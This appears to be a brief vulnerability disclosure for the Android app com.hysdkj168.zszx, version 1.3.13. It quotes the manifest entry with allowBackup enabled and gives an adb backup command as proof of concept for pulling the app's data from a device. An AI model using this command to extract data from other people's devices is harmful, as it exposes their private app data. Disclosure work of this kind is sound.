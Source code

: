 #### com.hysdkj168.zszx

com.hysdkj168.zszx has an Android manifest file that contains an entry with the android:allowBackup attribute set to true. This could be leveraged by an attacker with physical access to the device.

- package: com.hysdkj168.zszx
- version: 1.3.13
- url: https://os-android.liqucn.com/rj/172646.shtml

```xml
<application android:theme="@style/AppTheme.NoActionBar" android:label="@string/app_name" android:icon="@drawable/ic_launcher" android:name="MyWrapperProxyApplication" android:exported="false" android:allowBackup="true" android:hardwareAccelerated="true" android:supportsRtl="true" android:usesCleartextTraffic="true" android:networkSecurityConfig="@xml/network_security_config" android:appComponentFactory="android.app.AppComponentFactory" android:requestLegacyExternalStorage="true">
```

poc:

```shell
adb backup -apk -shared -f backup.ab com.hysdkj168.zszx
```

![image-20240415170640902](image-20240415170640902.png)